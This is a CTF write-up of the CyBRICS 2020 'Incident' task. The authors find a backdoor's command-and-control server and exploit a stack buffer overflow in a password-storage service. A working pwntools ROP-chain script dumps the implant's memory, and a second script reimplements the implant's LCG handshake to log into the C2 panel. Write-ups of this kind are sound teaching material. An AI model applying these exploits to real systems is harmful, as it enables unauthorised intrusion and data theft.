

+++
title = 'CyBRICS CTF 2020 — Incident'
date = 2020-07-28T13:32:38+05:00
tags = ['ctf', 'writeup', 'forensics', 'reverse']
toc = true
tldr = 'exploiting buffer overflow to leak a hidden backdoor'
+++



We solved this task with [@pixelindigo](https://t.me/pixelindigo) and [@pavkirill](https://t.me/pavkirill) on behalf of the team [corruptedpwnis](https://ctftime.org/team/87386).

The challenge description says that we have a service which implementing a kind of a password storage.

The passwords are leaking, so the challenge author assumes that the service was compromised by some bad hacker, and now it contains an [APT malware](https://en.wikipedia.org/wiki/Advanced_persistent_threat) which is constantly stealing passwords.

We need to investigate this incident.

## Finding the backdoor

The author provides us an SSH-connection to a vulnerable box. These boxes are unique for a every team in CTF, so we won't conflict with other teams. The vulnerable box is minimalistic and contains only single binary in root folder called `service` (we immediately downloaded it, [click here to download the binary](service)).

The author said passwords are leaking, so we want to look at running network connections:

```
$ netstat -tupan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:50009           0.0.0.0:*               LISTEN      7/service
tcp        1      0 127.0.0.1:50009         127.0.0.1:56888         CLOSE_WAIT  7/service
tcp        0      0 127.0.0.1:56888         127.0.0.1:50009         FIN_WAIT2   -
tcp        1      0 172.17.0.6:44956        34.77.100.237:65278     CLOSE_WAIT  7/service
```

As you see, there is a strange connection to the IP `34.77.100.237` from the service. We ran [nmap](https://en.wikipedia.org/wiki/Nmap) to see what ports are open:

```
$ nmap -Pn 34.77.100.237
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-25 23:00 MSK
Nmap scan report for 237.100.77.34.bc.googleusercontent.com (34.77.100.237)
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
12345/tcp open  netbus

Nmap done: 1 IP address (1 host up) scanned in 7.28 seconds
```

We found another opened port: `12345`. Let's connect to it:

```
$ nc 34.77.100.237 12345
Welcome! this is admin panel for password manager backdoor!
Send your id:
```

Woah! It's an admin panel for the backdoor. It looks like a [Command & Control](https://en.wikipedia.org/wiki/Botnet) server of the malware. Seems like we need to pass the authentication and log in. But how to do it? First we could reverse the backdoor itself and analyze its behaviour. Remember, the backdoor are installed inside the `service` memory, let's look at the memory mappings:

```
$ cat /proc/7/maps
00400000-00402000 r-xp 00000000 08:01 516115                             /service
00402000-00403000 r-xp 00002000 08:01 516115                             /service
00403000-00404000 r-xp 00003000 08:01 516115                             /service
00603000-00604000 r--p 00003000 08:01 516115                             /service
00604000-00605000 rw-p 00004000 08:01 516115                             /service
01e25000-01e46000 rw-p 00000000 00:00 0                                  [heap]
100000000-100008000 rw-p 00000000 00:00 0
7fc4b4000000-7fc4b4001000 rwxp 00000000 00:00 0
7fc4b4001000-7fc4b4021000 rw-p 00000000 00:00 0
7fc4b4021000-7fc4b8000000 ---p 00000000 00:00 0
7fc4b8bd2000-7fc4b8bda000 rwxp 00000000 00:00 0
7f8bc260d000-7f8bc260f000 rw-p 00000000 00:00 0 
7f8bc260f000-7f8bc2610000 r--p 00000000 08:02 3547931                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f8bc2610000-7f8bc2612000 r-xp 00001000 08:02 3547931                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f8bc2612000-7f8bc2613000 r--p 00003000 08:02 3547931                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f8bc2613000-7f8bc2614000 r--p 00003000 08:02 3547931                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f8bc2614000-7f8bc2615000 rw-p 00004000 08:02 3547931                    /usr/lib/x86_64-linux-gnu/libdl-2.31.so
7f8bc2615000-7f8bc263a000 r--p 00000000 08:02 3547920                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f8bc263a000-7f8bc27b2000 r-xp 00025000 08:02 3547920                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f8bc27b2000-7f8bc27fc000 r--p 0019d000 08:02 3547920                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f8bc27fc000-7f8bc27fd000 ---p 001e7000 08:02 3547920                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f8bc27fd000-7f8bc2800000 r--p 001e7000 08:02 3547920                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f8bc2800000-7f8bc2803000 rw-p 001ea000 08:02 3547920                    /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f8bc2803000-7f8bc2807000 rw-p 00000000 00:00 0 
7f8bc2807000-7f8bc280e000 r--p 00000000 08:02 3548014                    /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f8bc280e000-7f8bc281f000 r-xp 00007000 08:02 3548014                    /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f8bc281f000-7f8bc2824000 r--p 00018000 08:02 3548014                    /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f8bc2824000-7f8bc2825000 r--p 0001c000 08:02 3548014                    /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f8bc2825000-7f8bc2826000 rw-p 0001d000 08:02 3548014                    /usr/lib/x86_64-linux-gnu/libpthread-2.31.so
7f8bc2826000-7f8bc282a000 rw-p 00000000 00:00 0 
7f8bc282a000-7f8bc28a2000 r--p 00000000 08:02 2755948                    /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
7f8bc28a2000-7f8bc2a3d000 r-xp 00078000 08:02 2755948                    /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
7f8bc2a3d000-7f8bc2ace000 r--p 00213000 08:02 2755948                    /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
7f8bc2ace000-7f8bc2afa000 r--p 002a3000 08:02 2755948                    /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
7f8bc2afa000-7f8bc2afc000 rw-p 002cf000 08:02 2755948                    /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
7f8bc2afc000-7f8bc2b02000 rw-p 00000000 00:00 0 
7f8bc2b04000-7f8bc2b05000 r--p 00000000 08:02 3547898                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f8bc2b05000-7f8bc2b28000 r-xp 00001000 08:02 3547898                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f8bc2b28000-7f8bc2b30000 r--p 00024000 08:02 3547898                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f8bc2b31000-7f8bc2b32000 r--p 0002c000 08:02 3547898                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f8bc2b32000-7f8bc2b33000 rw-p 0002d000 08:02 3547898                    /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f8bc2b33000-7f8bc2b34000 rw-p 00000000 00:00 0 
7ffd19b5c000-7ffd19b7d000 rw-p 00000000 00:00 0                          [stack]
7ffd19bc3000-7ffd19bc6000 r--p 00000000 00:00 0                          [vvar]
7ffd19bc6000-7ffd19bc7000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

Wait... RWX sections? Mapping to `0x100000000` address? Have you seen this before?

```
100000000-100008000 rw-p 00000000 00:00 0
7fc4b4000000-7fc4b4001000 rwxp 00000000 00:00 0
7fc4b4001000-7fc4b4021000 rw-p 00000000 00:00 0
7fc4b4021000-7fc4b8000000 ---p 00000000 00:00 0
7fc4b8bd2000-7fc4b8bda000 rwxp 00000000 00:00 0
```

A bit unusual mappings for a normal application. It looks like someone put here a shellcode and executed it! We definitely need to dump and analyze this memory regions. After spending some time we found that [SYS_PTRACE](https://man7.org/linux/man-pages/man2/ptrace.2.html) was disabled, and we can't dump the memory directly:

```
Could not attach to process.  If your uid matches the uid of the target
process, check the setting of /proc/sys/kernel/yama/ptrace_scope, or try
again as the root user.  For more details, see /etc/sysctl.d/10-ptrace.conf
ptrace: Operation not permitted.
```

But remember what the author said: `it was an APT that installed a software implant right inside our service`. How is it possible? There must be a vulnerability in the service, which allows an attacker to execute arbitrary code. If it allows the attacker, it also will allow us. So let's analyze the service.

## Finding the vulnerability

The user interface of service is pretty simple, we can:

- register user
- login as a registered user
- store passwords for a registered user 
- retrieve passwords for a registered user

```
Welcome to our password storage!
1> Register
2> Login
3> Exit
1
Username: user
Password: pass
OK!
1> Register
2> Login
3> Exit
2
Username: user
Password: pass
OK!
Hi, user !
Enter your secret phrase: secret
1> Add new password
2> Get existing password
3> Logout
1
Enter password id(URL for example): id
Do you want to:
1> Generate random password
2> Enter own password
2
Password: password
1> Add new password
2> Get existing password
3> Logout
2
Enter password id: id
Your password: password
1> Add new password
2> Get existing password
3> Logout
3
Loging out...
1> Register
2> Login
3> Exit
3
Bye!
```

The service is implemented as a well-known socket server listening `50009` port. As you could see in mappings, the service uses [pthreads](https://en.wikipedia.org/wiki/POSIX_Threads) to handle each connection. Here is a main logic function:

```c
ssize_t __fastcall logic(int fd)
{
  int choice; // eax@2

  send(fd, "Welcome to our password storage!\n", 0x21uLL, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(fd);
      choice = get_int(fd);
      if ( choice != 2 )
        break;
      login_handler(fd);
    }
    if ( choice == 3 )
      return send(fd, "Bye!\n", 4uLL, 0);
    if ( choice != 1 )
      break;
    register_handler(fd);
  }
  return send(fd, "Invalid option!\n", 0x10uLL, 0);
}
```

Let's look at the `login_handler`:

```c
ssize_t __fastcall register_handler(int fd)
{
  ssize_t result; // rax@2
  size_t length; // rax@3
  char password[256]; // [sp+10h] [bp-210h]@3
  char path[8]; // [sp+110h] [bp-110h]@1
  char username[256]; // [sp+118h] [bp-108h]@1
  FILE *file; // [sp+218h] [bp-8h]@3

  send(fd, "Username: ", 0xAuLL, 0);
  strcpy(path, STORAGE_FOLDER);
  read_n(fd, username);
  validate(username);
  if ( access(path, 0) == -1 )
  {
    send(fd, "Password: ", 0xAuLL, 0);
    read_n(fd, password);
    file = fopen(path, "w");
    length = strlen(password);
    fwrite(password, length, 1uLL, file);
    fclose(file);
    result = send(fd, "OK!\n", 4uLL, 0);
  }
  else
  {
    result = send(fd, "Fail!\n", 6uLL, 0);
  }
  return result;
}
```

There are two buffers of size 256: `username` and `password`, both of them we can control. Our input is read inside `read_n` function:

```c
char *__fastcall read_n(int fd, char *buffer)
{
  char *result; // rax@4
  char *buf; // [sp+0h] [bp-20h]@1
  int symbol; // [sp+1Ch] [bp-4h]@2

  for ( buf = buffer; ; ++buf )
  {
    symbol = recv(fd, buf, 1uLL, 0);
    if ( symbol == -1 || !symbol )
    {
      result = buf;
      *buf = 0;
      return result;
    }
    if ( *buf == '\n' )
      break;
  }
  result = buf;
  *buf = 0;
  return result;
}
```

As you see, there are no checks for the input's size, we could input arbitrary long string, and it will be placed on the stack (as long as the string does not contain `'\n'`). So here is an obvious buffer overflow vulnerability.

## Exploiting the buffer overflow

```
$ checksec service
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Exploiting the buffer overflow in such large binary should be easy, since it's large it contains a lot of useful gadgets, and we can craft a long ROP-chain with non-trivial logic. The only problem is the socket file descriptor — it is passed through registers and becomes completely loss at the end of function. But remember, the vulnerable box is our own, there won't be a lot of connections to the service, so we still could brute force the file descriptor. The another important part is [SIGSEGV](https://en.wikipedia.org/wiki/Segmentation_fault) handler. The service ignores segmentation fault signals itself, it just exit from the thread, so we don't need to worry about errors in our payload — the service will stay working. 

Remember that we don't need to get a shell, we just need to write the memory regions content, so we don't need to write the interaction with the shell through the socket or `mmap` some RWX regions to put a shellcode. Also remember that we could "leak" libc address and the next fd from `/proc/`, since we've got an access to filesystem. After that our exploitation process is pretty easy:

1. download libc from the vulnerable box (it's `Ubuntu GLIBC 2.31-0ubuntu9`)
2. find useful gadgets using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
3. get libc address from `/proc/$(pgrep service)/maps`
4. get fd from `/proc/$(pgrep service)/fd/`
5. read rwx sections from `/proc/$(pgrep service)/maps`
6. use `send(fd, address, size, 0)` and dump the memory regions

The vulnerable box has installed `python3` with [pwntools](https://github.com/Gallopsled/pwntools) (many thanks to organizers), so we can write our exploit in python:

```python3
#!/usr/bin/env python3.7

import os

from pwn import *


def main(io):
    # "leak" fd from /proc/
    fd_cmd = 'ls /proc/$(pgrep service)/fd/ | wc -l'
    fd = int(os.popen(fd_cmd).read().strip()) - 1

    # "leak" libc_base from /proc/
    libc_base_cmd = 'cat /proc/$(pgrep service)/maps | grep libc | head -1 | cut -d- -f1'
    libc_base = int(os.popen(libc_base_cmd).read().strip(), 16)
    
    # get all rwx sections
    maps = os.popen('cat /proc/$(pgrep service)/maps').read().strip().split('\n')
    regions = []

    for line in maps:
        parts = line.split(' ')
        if 'rwx' not in parts[1]:
            continue
        start, end = [int(x, 16) for x in parts[0].split('-')]
        regions.append((start, end - start))

    # some useful gadgets
    send_plt = 0x4011C0

    pop_rdi_ret = libc_base + 0x0000000000026b72
    pop_rsi_ret = libc_base + 0x0000000000027529
    pop_rdx_pop_rcx_pop_rbx_ret = libc_base + 0x000000000010556d

    # enter to register_handler
    for i in range(4):
        io.recvline()
    
    io.sendline(b'1')
    
    # build rop-chain
    chain = [
        b'A' * 0x118,
        b'B' * 8
    ]

    for start, size in regions:
        chain.extend([
            p64(pop_rdi_ret),
            p64(fd),
            p64(pop_rsi_ret),
            p64(start),
            p64(pop_rdx_pop_rcx_pop_rbx_ret),
            p64(size),
            p64(0),
            p64(0),
            p64(send_plt)
        ])

    # send payload in username and password
    io.sendlineafter(b': ', b''.join(chain))
    io.sendlineafter(b': ', b'AAAAAAAA')
    io.recvline()

    # read rwx sections and write them into the file
    with open('backdoor.bin', 'wb') as file:
        for start, size in regions:
            print(hex(start), size)
            file.write(io.recvn(size))


if __name__ == '__main__':
    with remote('0.0.0.0', 50009) as io:
        main(io)
```

And we've got a file `backdoor.bin` with rwx sections. Let's disassemble them.

## Analyzing the backdoor

The analysis of the backdoor is pretty straightforward, it does not contain any obfuscation. I won't provide a full assembler listing, if you want you can get the raw dump [here](backdoor.bin). The backdoor performs two socket connections:

1. connect to `34.77.100.237:65278` and register
2. connect to `34.77.100.237:64250` and send data here

The backdoor have some non-trivial logic while registering itself on port `65278`. After some analysis we've understood that it uses `ID` and `password`. The `ID` it gets from the server, but the `password` is generated by some cryptographic algorithm. But it's not too hard, since it was an [LCG](https://en.wikipedia.org/wiki/Linear_congruential_generator). Here is two functions related to LCG:

```
initialize      proc near
                mov     rax, 100000000h
                mov     [rax], rdi
                retn
initialize      endp

lcg_step        proc near
                mov     rdi, 100000000h
                imul    eax, [rdi], 1103515245
                add     eax, 12345
                and     eax, 7FFFFFFFh
                mov     rdi, 100000000h
                mov     [rdi], rax
                retn
lcg_step        endp
```

And the backdoor logic:

```
; read 4-byte seed from server
mov     edx, 4
lea     rsi, [rbp-20h]  ; seed
mov     rdi, [rbp-18h]  ; fd
xor     rax, rax
syscall

; initialize LCG with seed
mov     rdi, [rbp-20h]  ; seed
mov     esi, 0FFFFFFFFh
and     rdi, rsi
call    initialize

; step LCG 4 times to fill 4-int buffer
call    lcg_step
mov     [rbp-2Ch], eax  ; buffer[3]
call    lcg_step
mov     [rbp-30h], eax  ; buffer[2]
call    lcg_step
mov     [rbp-34h], eax  ; buffer[1]
call    lcg_step
mov     [rbp-38h], eax  ; buffer[0]

; send 12 bytes (3 ints) from buffer to server
mov     edx, 12
lea     rsi, [rbp-38h]  ; buffer
mov     rdi, [rbp-18h]  ; fd
mov     eax, 1
syscall

; read 10-byte ID from server
mov     rsi, 100000008h ; ID
mov     rdi, [rbp-18h]  ; fd
mov     edx, 10
mov     eax, 0
syscall
```

We thought if we will register in the same way, we would get the flag from admin interface (port `12345`). So we implemented this logic in python:

```python3
#!/usr/bin/env python3.7

import struct
import socket


def main():
    login_address = '34.77.100.237', 65278

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.settimeout(3)
        sock.connect(login_address)
        
        seed = struct.unpack('<I', sock.recv(4))[0]
        
        numbers = []
        for i in range(4):
            seed = (seed * 1103515245 + 12345) & 0x7FFFFFFF
            numbers.append(seed)

        password = struct.pack('<III', *numbers[1:][::-1])
        sock.send(password)

        userid = sock.recv(10).decode()

    print(f'ID: {userid}')
    print(f'password: {password.hex()}')
    

if __name__ == '__main__':
    main()
```

So we registered with `ID = ID45671868` and `password = 49e60a3a5084ea2c134a437a`. Next we tried to login in the admin interface and got the flag:

```
$ nc 34.77.100.237 12345
Welcome! this is admin panel for password manager backdoor!
Send your id:ID45671868
Enter your password(12 hexencoded bytes):49e60a3a5084ea2c134a437a
flag
cybrics{c26d637d51fd59313fa27d48ad4276d3d9dddbf2}
```

Great challenge, many thanks to the author!
